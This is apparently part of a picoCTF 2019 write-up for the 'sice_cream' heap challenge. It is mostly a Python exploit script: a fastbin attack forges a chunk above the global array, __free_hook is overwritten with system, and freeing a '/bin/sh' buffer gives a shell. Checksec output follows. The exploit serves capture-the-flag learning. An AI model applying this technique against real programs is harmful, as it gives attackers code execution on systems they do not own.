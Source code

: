 ```python
# The program however has a limit of 19 chunks
# I bypass it by getting a chunk right above the global array of chunks
# I then zero out the first 11 indexes of that array

# Address of the fake chunk above the array
fake_chunk_above_array = 0x602130

# Change the name so that it places a fake chunk header right at that address from above
reintroduce(p64(0) + p64(0x61) + p64(0)*11 + p64(0x21) + p64(0)*17 + p64(0x61))

# Free the fake_chunk at the name
free(6)

# Overwrite its fd with the address of our fake chunk above the global array
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

# Chunk 12 will be above the global array, zero out a bunch of indexes
add(0x58, 'A'*0x58) # 11
add(0x58, p64(0)*11) # 12, Free up indexes 0-10

# Now there is a reference to fake_chunk (at our name) at idx 11
# This can easily be verified by viewing the array in gdb

# Now, this was a bit of trial and error, but I found out that 51 allocations of size 0x48
# was enough to reach just above __free_hook
# Each time we allocate, we zero out the global array immediately
for i in range(51):
    # Allocate using top chunk
    add(0x48, '\x00'*0x48)

    # Redo the fastbin attack to get a chunk above the global array

    # Free our fake_chunk on the name
    free(11)

    # Change fd to point to fake_chunk_above_array
    reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

    # Two more allocations, zero out the indexes
    add(0x58, 'A'*0x58)
    add(0x58, p64(0)*11)

# After 51 allocations, we can overwrite __free_hook with system
# We have to keep null bytes before it, otherwise the program will crash (I don't know why)
add(0x48, '\x00'*0x35 + p64(system))

# Then just put '/bin/sh\x00' into our name array
reintroduce(p64(0) + p64(0x61) + '/bin/sh\x00')

# Call free(fake_chunk), which calls system(fake_chunk), which calls system('/bin/sh\x00')
free(11)

p.interactive()
```
```sh
Faith@pico-2019-shell1:~$ ./sice_cream.py REMOTE
[*] '/home/Faith/sice_cream'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  './'
```